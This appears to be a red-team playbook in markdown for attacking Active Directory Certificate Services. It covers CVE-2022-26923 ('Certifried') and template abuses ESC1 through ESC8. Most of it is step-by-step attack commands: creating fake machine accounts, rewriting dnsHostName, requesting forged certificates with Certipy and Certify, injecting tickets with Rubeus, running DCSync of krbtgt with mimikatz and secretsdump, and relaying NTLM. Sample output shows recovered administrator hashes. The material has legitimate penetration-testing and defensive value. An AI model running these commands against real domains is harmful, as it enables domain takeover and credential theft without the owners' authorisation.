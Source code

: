<!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
# ADCS Attacks
### Tags
<details><summary>Tags (Click to expand)</summary><p>

Environment

		#@active #@directory #@activedirectory #@microsoft

Context

		#@certificate #@services #@adcs #@authority #@relay #@cert #@certutil #@ccache

Tools

		#@certi #@certipy #@certify #@rubeus

</p></details>

### References
<details><summary>References (Click to expand)</summary><p>

* ADCS Setup -<br />[https://www.virtuallyboring.com/setup-microsoft-active-directory-certificate-services-ad-cs/](https://www.virtuallyboring.com/setup-microsoft-active-directory-certificate-services-ad-cs/)
* PetitPotam PoC - [https://github.com/topotam/PetitPotam](https://github.com/topotam/PetitPotam)
* -<br />[https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31)
* -<br />[https://twitter.com/gentilkiwi/status/1421947898749669379](https://twitter.com/gentilkiwi/status/1421947898749669379)
* -<br />[https://www.exandroid.dev/2021/06/23/ad-cs-relay-attack-practical-guide/](https://www.exandroid.dev/2021/06/23/ad-cs-relay-attack-practical-guide/)
* -<br />[https://cqureacademy.com/blog/hacking-summer-camp-techniques-for-grabbing-private-keys-from-certificates-that-have-been-made-non-exportable](https://cqureacademy.com/blog/hacking-summer-camp-techniques-for-grabbing-private-keys-from-certificates-that-have-been-made-non-exportable)
* -<br />[https://www.riskinsight-wavestone.com/en/2021/06/microsoft-adcs-abusing-pki-in-active-directory-environment/#section-3](https://www.riskinsight-wavestone.com/en/2021/06/microsoft-adcs-abusing-pki-in-active-directory-environment/#section-3)
* Full SpecterOps White Paper explanation -<br />([https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf](https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf))
* Microsoft Support: KB5005413: Mitigating NTLM Relay Attacks on Active Directory Certificate Services (AD CS) -<br />[https://support.microsoft.com/en-us/topic/kb5005413-mitigating-ntlm-relay-attacks-on-active-directory-certificate-services-ad-cs](https://support.microsoft.com/en-us/topic/kb5005413-mitigating-ntlm-relay-attacks-on-active-directory-certificate-services-ad-cs)
* [https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7](https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7)

</p></details>

### Overview, Tips, and Tricks

* <details><summary>Important Notes (Click to expand)</summary><p>
	* Microsoft refers to the attack chain as **PetitPotam** in KB5005413. However, **PetitPotam** is just the PoC exploit used to invoke an NTLM authentication request through a `EfsRpcOpenFileRaw` request.
	* There may be other techniques that may cause a Windows system to initiate a connection to an arbitrary host using privileged NTLM credentials.
	* There may be services other than AD CS that may be leveraged to use as a target for a relayed NTLM authentication request.
* Tips
	* **Certipy** - The enumeration for data currently (2022.08) requires that you use ly4k's forked BloodHound release to process the collected data. -<br />[https://github.com/ly4k/BloodHound/releases](https://github.com/ly4k/BloodHound/releases)

### Example Attacks

#### From a Linux Machine
* CVE-2022-26923 ("Certifried")
	* <details><summary>Overview (Click to expand)</summary><p>
		* An authenticated user could manipulate attributes on computer accounts they own or manage, and acquire a certificate from Active Directory Certificate Services that would allow elevation of privilege.
		* **User** template certificate would identify and distinguish the certificate with the User Principal Name(UPN) of the certificate as _SubjectAltRequireUpn_ is in the `msPKI-Certificate-Name-Flag` attributes. However, **Machine** template distinguish computer accounts' certificates only by `dnsHostName` attribute which can be edited out and cause confusion in the KDC and attacker can request certificate as DC instead of the legitimate computer and results in a DCSync attack.
	* <details><summary>References (Click to expand)</summary><p>
		* Official Patch/Remediation by Microsoft -<br />[https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-26923](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-26923)
	* <details><summary>aniqfakhrul's method (Click to expand)</summary><p>
		* References
			* aniqfakhrul's GitHub: certifried.py -<br />[https://github.com/aniqfakhrul/certifried.py](https://github.com/aniqfakhrul/certifried.py)
			* aniqfakhrul's GitHub -<br />[https://github.com/aniqfakhrul/archives#certifried](https://github.com/aniqfakhrul/archives#certifried)
		* Attack
			1. Create a fake coputer account, clear the SPN attributes related to `dnsHostName` attribute, and change the `dnsHostName` attribute to match the DC.
				* "Messy-Script-Does-Start"
					* certifried.py -<br />[https://github.com/aniqfakhrul/certifried.py](https://github.com/aniqfakhrul/certifried.py)_
				* Step-by-Step
					1. Add a fake computer account
						* Powermad -<br />[https://github.com/Kevin-Robertson/Powermad](https://github.com/Kevin-Robertson/Powermad)

								New-MachineAccount -MachineAccount 'FakeComputer' -Password (ConvertTo-SecureString -AsPlainText -Force 'Password123') -Domain domain.local -DomainController dc.domain.local -Verbose
						* Impacket's addcomputer.py -<br />[https://github.com/SecureAuthCorp/impacket/blob/master/examples/addcomputer.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/addcomputer.py)

								addcomputer.py domain.local/john:'Passw0rd1' -method LDAPS -computer-name 'JOHNPC' -computer-pass 'Password123'
					1. Clear the SPNs attributes that relates to the current `dnsHostName` attribute.

							addspn.py --clear -t 'FakeComputer$' -u 'domain\user' -p 'password' 'DC.domain.local'
					1. Change dnsHostName attribute matching the domain controller
						* RSAT

								Set-ADComputer THMPC -DnsHostName LUNDC.lunar.eruca.com
						* certifried.py

								python3 certifried.py range.net/peter:'Welcome1234' -dc-ip 192.168.86.182
				1. Request certificate with [Certipy](https://github.com/ly4k/Certipy)

						certipy req range.net/WIN-JLSLKICW6EP\$:'PY2nc0ubG8WT'@ca01.range.net -ca range-CA01-CA -template Machine
				1. Authenticate with the requested certificate earlier

						certipy auth -pfx dc01.pfx -dc-ip 192.168.86.182
				1. DCSync and win

						secretsdump.py domain.local/dc01\$@10.10.10.10 -just-dc -hashes :000000000000000
				1. It is always recommended to cleanup the created computer account. _(This requires a privileged account)_

						addcomputer.py range.net/Administrator:'Password123' -computer-name 'WIN-EAZXIGMWO1T$' -computer-pass 'mi#gKKWFlzxJ' -dc-ip 192.168.86.182 -delete
	* <details><summary>Oliver Lyak (ly4k) method (Click to expand)</summary><p>
		* References
			* Blog Post -<br />[https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4](https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4)
		* Attack (Needs Testing)
			1. Create a machine account

					certipy account create $DOMAIN/john:Passw0rd@dc.corp.local' -user 'johnpc' -dns 'dc.corp.local'
			2. Perform the attack

					certipy req $DOMAIN/JOHNPC$:<newgeneratedpassword>@dc.corp.local' -ca 'CORP-DC-CA' -template Machine
	* <details><summary>payloadsallthething method (Click to expand)</summary><p>
		* Attack
			1. Find ms-DS-MachineAccountQuota

						python bloodyAD.py -d lab.local -u username -p 'Password123*' --host 10.10.10.10 getObjectAttributes	'DC=lab,DC=local' ms-DS-MachineAccountQuota 
			1. Add a new computer in the Active Directory, by default `MachineAccountQuota = 10`

					python bloodyAD.py -d lab.local -u username -p 'Password123*' --host 10.10.10.10 addComputer cve 'CVEPassword1234*'
					certipy account create 'lab.local/username:Password123*@dc.lab.local' -user 'cve' -dns 'dc.lab.local'
				* [ALTERNATIVE] If you are `SYSTEM` and the `MachineAccountQuota=0`: Use a ticket for the current machine and reset its SPN

						Rubeus.exe tgtdeleg
						export KRB5CCNAME=/tmp/ws02.ccache
						python bloodyAD -d lab.local -u 'ws02$' -k --host dc.lab.local setAttribute 'CN=ws02,CN=Computers,DC=lab,DC=local' servicePrincipalName '[]'
			1. Set the `dNSHostName` attribute to match the Domain Controller hostname

					python bloodyAD.py -d lab.local -u username -p 'Password123*' --host 10.10.10.10 setAttribute 'CN=cve,CN=Computers,DC=lab,DC=local' dNSHostName '["DC.lab.local"]'
					python bloodyAD.py -d lab.local -u username -p 'Password123*' --host 10.10.10.10 getObjectAttributes 'CN=cve,CN=Computers,DC=lab,DC=local' dNSHostName
			1. Request a ticket

					# certipy req 'domain.local/cve$:CVEPassword1234*@ADCS_IP' -template Machine -dc-ip DC_IP -ca discovered-CA
					certipy req 'lab.local/cve$:CVEPassword1234*@10.100.10.13' -template Machine -dc-ip 10.10.10.10 -ca lab-ADCS-CA
			1. Either use the pfx or set a RBCD on your machine account to takeover the domain

					certipy auth -pfx ./dc.pfx -dc-ip 10.10.10.10
					openssl pkcs12 -in dc.pfx -out dc.pem -nodes
					python bloodyAD.py -d lab.local	-c ":dc.pem" -u 'cve$' --host 10.10.10.10 setRbcd 'CVE$' 'CRASHDC$'
					getST.py -spn LDAP/CRASHDC.lab.local -impersonate Administrator -dc-ip 10.10.10.10 'lab.local/cve$:CVEPassword1234*'	 
					secretsdump.py -user-status -just-dc-ntlm -just-dc-user krbtgt 'lab.local/Administrator@dc.lab.local' -k -no-pass -dc-ip 10.10.10.10 -target-ip 10.10.10.10 

#### From a Windows Machine
##### Remote


##### Local/Domain-Joined
* CVE-2022-26923 ("Certifried")
	* <details><summary>Overview (Click to expand)</summary><p>
		* An authenticated user could manipulate attributes on computer accounts they own or manage, and acquire a certificate from Active Directory Certificate Services that would allow elevation of privilege.
		* **User** template certificate would identify and distinguish the certificate with the User Principal Name(UPN) of the certificate as _SubjectAltRequireUpn_ is in the `msPKI-Certificate-Name-Flag` attributes. However, **Machine** template distinguish computer accounts' certificates only by `dnsHostName` attribute which can be edited out and cause confusion in the KDC and attacker can request certificate as DC instead of the legitimate computer and results in a DCSync attack.
	* <details><summary>References (Click to expand)</summary><p>
		* Official Patch/Remediation by Microsoft -<br />[https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-26923](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-26923)
	* <details><summary>tothi's method (Click to expand)</summary><p>
		* References
			* tothi guide -<br />[https://gist.github.com/tothi/f89a37127f2233352d74eef6c748ca25](https://gist.github.com/tothi/f89a37127f2233352d74eef6c748ca25)
		* Attack
			1. For the sake of simplicity: use the awesome all-in-one tool [KrbRelayUp](https://github.com/Dec0ne/KrbRelayUp) for
			privilege escalation to local system on the domain-joined box where the attacker has non-privileged command execution
			capability:

					KrbRelayUp.exe full -m shadowcred -f
				* This gives an elevated command prompt immediately (as `NT Authority\System`).
			1. Perform the computer object attributes abuse (remove SPNs and modify dNSHostName to a DC) in the elevated prompt.
				* Using PowerShell ADSI Adapter for this task does not require any special dependencies:

						$searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]'')
						$searcher.filter = '(&(objectClass=computer)(sAMAccountName={0}$))' -f $Env:ComputerName
						$obj = [ADSI]$searcher.FindAll().Path
						$spn = @()
						$obj.servicePrincipalName | % { $spn += $_ }
						$dns = $obj.dNSHostName.ToString()     
						$spn | % { $obj.servicePrincipalName.Remove($_) }
						$obj.dNSHostName = "dc1.ecorp.local"
						$obj.SetInfo()
				* Original state of the attributes are saved (in the `$spn` and `$dns` variables) for later restore.
			1. Request machine certificate for this abused computer using [Certify](https://github.com/GhostPack/Certify)
			(should get a cert for the DC!):

					.\Certify.exe request /ca:dc1.ecorp.local\ecorp-dc1-ca /machine
			1. Restore computer attributes (still in the same PS session, previous variables should be available):

						$obj.dNSHostName = $dns
						$spn | % { $obj.servicePrincipalName.Add($_) }
						$obj.SetInfo()
			1. Copy the private key with the certificate issued at step 3 as `cert.pem` to a (Linux) box running openssl and
			convert it to pfx (no need to set a password):

					openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
				* Note that this step may require a Linux box but it is not interacting with the targets, so it not breaks the full
			Windows path.
				* Convert the `cert.pfx` file to base64:

						cat cert.pfx | base64 -w0
			1. Ask a Kerberos TGT using [Rubeus](https://github.com/GhostPack/Rubeus) with the certificate and PKINIT and
			inject it into the current session. This may be performed from original non-elevated shell:

					.\Rubeus.exe asktgt /user:DC1$ /certificate:<base64 pfx> /ptt
				* Check the `DC1$` (domain controller machine account) ticket in the session with klist:

						klist
			1. Domain Persistence
				* DCSync with [Mimikatz](https://github.com/gentilkiwi/mimikatz) and get any hash.
				* `krbtgt` (for golden tickets). 

					.\mimikatz.exe "lsadump::dcsync /domain:ecorp.local /user:krbtgt" exit

### Attack
#### From a Linux Machine
1. Enumerate
	* Automatic ([`Active Scanning` TTP](TTP/T1595_Active_Scanning/T1595.md), [`Active Scanning - Vulnerability Scanning` TTP](TTP/T1595_Active_Scanning/002_Vulnerability_Scanning/T1595.002.md))
1. Exploit
	* ESC1: **Subject Alternative Name (SAN)**
		* Usually easy win!
		* <details><summary>Requirements (Click to expand)</summary><p>
			* Enterprise CA permits low-privileged users the ability to request certificate
			* Manager  approval is disabled
			* No authorized signatures are required
			* An overly permissive certificate template security descriptor grants certificate enrollment  rights  to  low-privileged  users
			* The  certificate  template  defines  EKUs  that  enable  authentication
			* **The certificate template allows requesters to specify a subjectAltName in the CSR**
				* `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT`
		* <details><summary>Recommended: Certipy (Click to expand) -<br />[https://github.com/ly4k/Certipy](https://github.com/ly4k/Certipy)</summary><p>
			
				certipy req -u $DOMAIN_USER@$DOMAIN -p 'password' -ca DOMAIN-CA-CA -target ca.domain.local -dc-ip 10.0.0.1 -upn 'domain_admin@domain.local' -template vuln1 -dns dc01.domain.local
			* Notes
				* Template name should be specified as the vulnerable template.
				* Not every flag may be necessary (e.g., -dc-ip), but these flags cut down on DNS errors.
			* Examples

					certipy req -u $DOMAIN_USER@$DOMAIN -p $PASSWORD -ca DOMAIN-CA-CA -target ca.domain.local -dc-ip 10.0.0.1 -upn 'domain_admin@domain.local' -template vuln1 -dns dc01.domain.local
				* Example Output
					
						Certipy v4.0.0 - by Oliver Lyak (ly4k)

						[*] Requesting certificate via RPC
						[*] Successfully requested certificate
						[*] Request ID is 6
						[*] Got certificate with multiple identifications
						    UPN: 'domain_admin@domain.local'
						    DNS Host Name: 'dc01.domain.local'
						[*] Certificate has no object SID
						[*] Saved certificate and private key to 'domain_admin_dc01.pfx'
	* ESC2: **Any Purpose Certificates**
		* Note: The exploit process is essentially the same as ESC3.
		* <details><summary>Requirements (Click to expand)</summary><p>
			* Enterprise CA permits low-privileged users the ability to request certificate
			* Manager  approval is disabled
			* No authorized signatures are required
			* An overly permissive certificate template security descriptor grants certificate enrollment rights to low-privileged users
			* The  certificate template defines EKUs that enable authentication
			* **The certificate template defines the Any Purpose EKU or no EKU**
		* <details><summary>Recommended: Certipy (Click to expand) -<br />[https://github.com/ly4k/Certipy](https://github.com/ly4k/Certipy)</summary><p>
			* Example
				1. Request a certificate file using a vulnerable template
				
						certipy req -username $DOMAIN_USER@$DOMAIN -password $PASSWORD -ca DOMAIN-CA-CA -target ca.domain.local -template vuln1
					* Example Output

							Certipy v4.0.0 - by Oliver Lyak (ly4k)

							[*] Requesting certificate via RPC
							[*] Successfully requested certificate
							[*] Request ID is 8
							[*] Got certificate without identification
							[*] Certificate has no object SID
							[*] Saved certificate and private key to 'domain_user.pfx'
				1. Use the vulnerable certificate to request access on behalf of another user

						certipy req -username $DOMAIN_USER@$DOMAIN -password $PASSWORD -ca DOMAIN-CA-CA -target ca.domain.local -template User -on-behalf-of 'microsoftdelive\domain_admin' -pfx 'domain_user.pfx'
					* Example Output

							Certipy v4.0.0 - by Oliver Lyak (ly4k)

							[*] Requesting certificate via RPC
							[*] Successfully requested certificate
							[*] Request ID is 10
							[*] Got certificate with UPN 'domain_admin@domain.local'
							[*] Certificate has no object SID
							[*] Saved certificate and private key to 'domain_admin.pfx'
				1. Authenticate with the certificate, receive the KRBTGT and NTLM Hash information.

						certipy auth -pfx administrator.pfx -dc-ip 10.0.0.1
					* Example Output

						Certipy v4.0.0 - by Oliver Lyak (ly4k)

						[*] Using principal: domain_admin@domain.local
						[*] Trying to get TGT...
						[*] Got TGT
						[*] Saved credential cache to 'domain_admin.ccache'
						[*] Trying to retrieve NT hash for 'domain_admin'
						[*] Got hash for 'domain_admin@domain.local': aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42
	* ESC3: A certificate template specifies the Certificate Request Agent EKU (Enrollment Agent) on behalf of other users
		* <details><summary>Requirements (Click to expand)</summary><p>
			* Requires 2+ templates matching these conditions:
				* No Issuance Requirements
				* Certificate Request Agent EKU
				* No enrollment agent Restrictions
		* <details><summary>Recommended: Certipy (Click to expand) -<br />[https://github.com/ly4k/Certipy](https://github.com/ly4k/Certipy)</summary><p>
			1. Request a certificate file using a vulnerable template
			
					certipy req -username $DOMAIN_USER@$DOMAIN -password $PASSWORD -ca DOMAIN-CA-CA -target ca.domain.local -template vuln1
				* Example Output

						Certipy v4.0.0 - by Oliver Lyak (ly4k)

						[*] Requesting certificate via RPC
						[*] Successfully requested certificate
						[*] Request ID is 8
						[*] Got certificate without identification
						[*] Certificate has no object SID
						[*] Saved certificate and private key to 'domain_user.pfx'
			1. Use the vulnerable certificate to request access on behalf of another user

					certipy req -username $DOMAIN_USER@$DOMAIN -password $PASSWORD -ca DOMAIN-CA-CA -target ca.domain.local -template User -on-behalf-of 'microsoftdelive\domain_admin' -pfx 'domain_user.pfx'
				* Example Output

						Certipy v4.0.0 - by Oliver Lyak (ly4k)

						[*] Requesting certificate via RPC
						[*] Successfully requested certificate
						[*] Request ID is 10
						[*] Got certificate with UPN 'domain_admin@domain.local'
						[*] Certificate has no object SID
						[*] Saved certificate and private key to 'domain_admin.pfx'
			1. Authenticate with the certificate, receive the KRBTGT and NTLM Hash information.

					certipy auth -pfx administrator.pfx -dc-ip 10.0.0.1
				* Example Output

					Certipy v4.0.0 - by Oliver Lyak (ly4k)

					[*] Using principal: domain_admin@domain.local
					[*] Trying to get TGT...
					[*] Got TGT
					[*] Saved credential cache to 'domain_admin.ccache'
					[*] Trying to retrieve NT hash for 'domain_admin'
					[*] Got hash for 'domain_admin@domain.local': aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42
	* ESC4: Abuse Write Permissions on Template to make vulnerable (e.g., to ESC1)
		* <details><summary>References (Click to expand)</summary><p>
			* [https://github.com/daem0nc0re/Abusing_Weak_ACL_on_Certificate_Templates](https://github.com/daem0nc0re/Abusing_Weak_ACL_on_Certificate_Templates)
		* <details><summary>Requirements (Click to expand)</summary><p>
			* Misconfigured certificate template access control
		* <details><summary>Recommended: Certipy (Click to expand) -<br />[https://github.com/ly4k/Certipy](https://github.com/ly4k/Certipy)</summary><p>
			* Overview
				* By default, Certipy will overwrite the configuration to make it vulnerable to ESC1.
				* specify the `-save-old` parameter to save the old configuration, which is useful for restoring the configuration afterwards.
			* <details><summary>Example (Click to expand)</summary><p>
				1. Use the "template" option to abuse your write capability and automatically overwrite the vulnerable certificate. Using `-save-old` will create a local copy of the template that can be used to revert the template to normal. Be very careful not to run the command a second time and overwrite your original `-save-old` once you've overwritten the template, because that was mighty unfortunate in testing.

						certipy template -username domain_user_ADCS@microsoftdelivery.com -password $PASSWORD -template Vuln4 -save-old
					* Example Output

							Certipy v4.0.0 - by Oliver Lyak (ly4k)

							[*] Saved old configuration for 'Vuln4' to 'Vuln4.json'
							[*] Updating certificate template 'Vuln4'
							[*] Successfully updated 'Vuln4'
				1. Now that the vulnerable template is "more vulnerable" and susceptible to ESC1, run the ESC1 attack, as below.

						certipy req -username domain_user_ADCS@microsoftdelivery.com -password $PASSWORD -ca MICROSOFTDELIVERY-CA-CA -target ca.microsoftdelivery.com -template Vuln4 -upn domain_admin@microsoftdelivery.com -dc-ip 10.0.0.1
					* Example Output

							Certipy v4.0.0 - by Oliver Lyak (ly4k)

							[*] Requesting certificate via RPC
							[*] Successfully requested certificate
							[*] Request ID is 21
							[*] Got certificate with UPN 'domain_admin@microsoftdelivery.com'
							[*] Certificate has no object SID
							[*] Saved certificate and private key to 'domain_admin.pfx'
				1. Restore the vulnerable template to its original settings.

						 certipy template -username domain_user_ADCS@microsoftdelivery.com -password $PASSWORD -template 'Vuln4' -configuration Vuln4.json 
					* Example Output

							Certipy v4.0.0 - by Oliver Lyak (ly4k)

							[*] Updating certificate template 'Vuln4'
							[*] Successfully updated 'Vuln4'
	* ESC5: Not Researched.
		* <details><summary>Requirements (Click to expand)</summary><p>
			* Vulnerable PKI AD Object Access Control 
		* <details><summary>Exploit (Click to expand)</summary><p>
			* "Get Creative." Similar to many AD Access Control Abuses.
	* ESC6: Misconfigured CA with `EDITF_ATTRIBUTESUBJECTALTNAME2` setting
		* <details><summary>Requirements (Click to expand)</summary><p>
			* The `EDITF_ATTRIBUTESUBJECTALTNAME2` setting on CAs
			* No Manager Approval
			* Enrollable Client Authentication/Smart Card Logon OID templates
		* <details><summary>Recommended: Certipy (Click to expand) -<br />[https://github.com/ly4k/Certipy](https://github.com/ly4k/Certipy)</summary><p>

				certipy req -username $DOMAIN_USER@$DOMAIN -password Passw0rd -ca corp-DC-CA -target ca.corp.local -template User -upn administrator@corp.local
			* Example Output

					Certipy v4.0.0 - by Oliver Lyak (ly4k)
					[*] Requesting certificate via RPC
					[*] Successfully requested certificate
					[*] Request ID is 2
					[*] Got certificate with UPN 'administrator@corp.local'
					[*] Certificate object SID is 'S-1-5-21-2496215469-2694655311-2823030825-1103'
					[*] Saved certificate and private key to 'administrator.pfx'

					$ certipy req -username administrator@corp.local -password Passw0rd! -ca corp-DC-CA -target ca.corp.local -template User -upn administrator@corp.local
			* Example Output

					Certipy v4.0.0 - by Oliver Lyak (ly4k)
					[*] Requesting certificate via RPC
					[*] Successfully requested certificate
					[*] Request ID is 3
					[*] Got certificate with UPN 'administrator@corp.local'
					[*] Certificate object SID is 'S-1-5-21-2496215469-2694655311-2823030825-500'
					[*] Saved certificate and private key to 'administrator.pfx'
	* ESC7: AManage CA or Manage Certificates access
		* <details><summary>Notes (Click to expand)</summary><p>
			* ESC7 is when a user has the Manage CA or Manage Certificates access right on a CA.
				* An attacker with control over a principal that has the ManageCA right over the CA can remotely flip the `EDITF_ATTRIBUTESUBJECTALTNAME2` bit to allow SAN specification in any template 
				* There are no public techniques for abuse (at the time of this writing)
			 	* The privilege can be used to issue/deny pending certificate requests
				* The "Certified Pre-Owned" whitepaper states that the privileges allowt he attacke to enable the `EDITF_ATTRIBUTESUBJECTALTNAME2` flag to perform the ESC6 attack.
					* This change will not take effect until the CA service (CertSvc) is restarted
						* A user with Manage CA access right may restart the service, but not necessarily remotely.
						* ESC6 might not work out of the box in most patched environments (May 2022 security updates)
			* See alternative below for avoiding service restarts/configuration changes
		* <details><summary>Requirements (Click to expand)</summary><p>
			* A principal with ManageCA rights on a certificate authority
	* ESC7 Alternative
		* <details><summary>Requirements (Click to expand)</summary><p>
			* User with **Manage Certificates** access right
			* The certificate template **SubCA** must be enabled
			* With the Manage CA access right, we can fulfill these prerequisites
		* <details><summary>Overview (Click to expand)</summary><p>
			* The technique relies on the fact that users with the Manage CA and Manage Certificates access right can issue failed certificate requests. The SubCA certificate template is vulnerable to ESC1, but only administrators can enroll in the template. Thus, a user can request to enroll in the SubCA - which will be denied - but then issued by the manager afterwards.
		* <details><summary>Prep. Process (Click to expand)</summary><p>
			* With the Manage CA access right, you can grant yourself the Manage Certificates access right by adding your user as a new officer.

					certipy ca -ca 'DOMAIN-CA-CA' -add-officer domain_user_adcs -username domain_user_adcs@domain.local -password $PASSWORD -target ca.domain.local -dc-ip 10.0.0.1
				* Example Output

						Certipy v4.0.0 - by Oliver Lyak (ly4k)

						[*] Successfully added officer 'Domain_User_ADCS' on 'DOMAIN-CA-CA'
			* The SubCA template can be enabled on the CA with the -enable-template parameter. By default, the SubCA template is enabled.

					certipy ca -ca 'MICROSOFTDELIVERY-CA-CA' -enable-template SubCA -username domain_user_ADCS@microsoftdelivery.com -password $PASSWORD -target ca.microsoftdelivery.com -dc-ip 10.0.0.1
				* Example Output

						Certipy v4.0.0 - by Oliver Lyak (ly4k)

						[*] Successfully enabled 'SubCA' on 'DOMAIN-CA-CA'
		* <details><summary>Attack Process (Click to expand)</summary><p>
			1. Request a certificate based on the SubCA template. This request will be denied. Save the private key and note the request ID.

					certipy req -username domain_user_ADCS@microsoftdelivery.com -password $PASSWORD -ca MICROSOFTDELIVERY-CA-CA -target ca.microsoftdelivery.com -template SubCA -upn domain_admin@microsoftdelivery.com -dc-ip 10.0.0.1
				* Example Output

						Certipy v4.0.0 - by Oliver Lyak (ly4k)

						[*] Requesting certificate via RPC
						[-] Got error while trying to request certificate: code: 0x80094012 - CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not allow the current user to enroll for this type of certificate.
						[*] Request ID is 14
						Would you like to save the private key? (y/N) y
						[*] Saved private key to 14.key
						[-] Failed to request certificate
			1. Use the Manage CA and Manage Certificates ability to issue the failed certificate request with the ca command and the -issue-request <request ID> parameter.

					certipy ca -ca 'MICROSOFTDELIVERY-CA-CA' -issue-request 14 -username domain_user_ADCS@microsoftdelivery.com -password $PASSWORD -dc-ip 10.0.0.1 -target 'ca.microsoftdelivery.com'
				* Example Output

						Certipy v4.0.0 - by Oliver Lyak (ly4k)

						[*] Successfully issued certificate
			1. Retrieve the issued certificate with the req command and the -retrieve <request ID> parameter.

					certipy req -username $DOMAIN_USER@$DOMAIN -password Passw0rd -ca corp-DC-CA -target ca.corp.local -retrieve 785
				* Output

						Certipy v4.0.0 - by Oliver Lyak (ly4k)

						[*] Rerieving certificate with ID 785
						[*] Successfully retrieved certificate
						[*] Got certificate with UPN 'administrator@corp.local'
						[*] Certificate has no object SID
						[*] Loaded private key from '785.key'
						[*] Saved certificate and private key to 'administrator.pfx'
			1. Retrieve NTLM Hash and Kerberos information using the certificate.

					certipy auth -pfx administrator.pfx -dc-ip 10.0.0.1
				* Example Output

						root@gateway:~# certipy auth -pfx domain_admin.pfx -dc-ip 10.0.0.1 -dc-ip 10.0.0.1
						Certipy v4.0.0 - by Oliver Lyak (ly4k)

						[*] Using principal: domain_admin@microsoftdelivery.com
						[*] Trying to get TGT...
						[*] Got TGT
						[*] Saved credential cache to 'domain_admin.ccache'
						[*] Trying to retrieve NT hash for 'domain_admin'
						[*] Got hash for 'domain_admin@microsoftdelivery.com': aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42
	* ESC8: **Force DC Certificate Request**
		* <details><summary>Requirements (Click to expand)</summary><p>
			* NTLM Relay to AD CS HTTP Endpoints
				1. Initiate a relay server
					* <details><summary>Recommended: Certipy (Click to expand)</summary><p>

							certipy relay -ca ca.corp.local
						* Example output

								Certipy v4.0.0 - by Oliver Lyak (ly4k)

								[*] Targeting http://ca.corp.local/certsrv/certfnsh.asp
								[*] Listening on 0.0.0.0:445
								[*] Requesting certificate for 'CORP\\Administrator' based on the template 'User'
								[*] Got certificate with UPN 'Administrator@corp.local'
								[*] Certificate object SID is 'S-1-5-21-980154951-4172460254-2779440654-500'
								[*] Saved certificate and private key to 'administrator.pfx'
								[*] Exiting...
						* Example error output (see Example 2 for alternative)

								Certipy v4.0.0 - by Oliver Lyak (ly4k)

								[*] Targeting http://ca/certsrv/certfnsh.asp
								[*] Listening on 0.0.0.0:445
								[+] Connecting to ca:80...
								[+] Connected to ca:80
								[+] HTTP server returned error code 200, treating as a successful login
								[+] Generating RSA key
								[+] Connecting to ca:80...
								[+] Connected to ca:80
								[*] Requesting certificate for 'MICROSOFTDELIVE\\DC01$' based on the template 'Machine'
								[!] Got access denied while trying to enroll in template 'Machine'
								[*] Request ID is 24
								Would you like to save the private key? (y/N) y
								[*] Saved private key to 24.key
								[*] Exiting...
				1. Force authentication to the relay server. This step can be completed according to the ([AD Forced Authentication Guide](Testaments_and_Books/Redvelations/Active_Directory/003-1_AD_NTLM_Capture_and_Relay_Attacks.md))
				1. Retrieve NTLM Hash and Kerberos information using the certificate.

						certipy auth -pfx administrator.pfx -dc-ip 10.0.0.1
					* Example Output

							root@gateway:~# certipy auth -pfx domain_admin.pfx -dc-ip 10.0.0.1 -dc-ip 10.0.0.1
